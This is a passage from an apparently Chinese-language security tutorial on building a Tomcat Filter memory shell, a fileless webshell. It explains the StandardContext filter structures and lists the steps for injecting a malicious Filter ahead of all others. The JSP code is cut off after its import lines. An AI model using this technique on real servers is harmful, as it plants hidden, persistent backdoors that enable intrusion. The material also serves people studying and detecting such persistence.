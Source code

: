 可以看到在`filterMaps`中以数组的方式存储着 filter 的名称和路径映射信息，其中`dispatcherMapping`、`filterName`和`urlPatterns`是必须的。

### filterDefs

![image-20221031163520399](images/image-20221031163520399.png)

`filterDefs`以键值对的方式存储`filterDef`，`filterDef`为 Map 对象，value 存储着重要的`filter`、`filterClass`和`filterName`。

### filterConfigs

![image-20221031164103231](images/image-20221031164103231.png)

`filterConfigs`存储着当前的上下文`StandardContext`（WEB 应用），`filter`对象和`filterDef`等等信息。

经过前面的分析，我们可以通过控制上述三个属性的内容达到动态添加恶意 Filter 的目的， 思路如下：

1. 编写恶意的 Filter 实现类；
2. 获取`StandardContext`对象；
3. 利用`FilterDef`对`filter`进行封装；
4. 创建`FilterMap`，将`filterName`和`urlPatterns`进行绑定（因为 Filter 是按照先后顺序进行调用，所以我们最好把恶意 Filter 放到最前面）
5. 使用`ApplicationFilterConfig`封装`filterDef`，然后将其添加到`filterConfigs`中

最后 Filter 内存马实现如下：
```java
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.util.Map" %><%--
  Created by dotast on 2022/10/31 16:51
--%>
```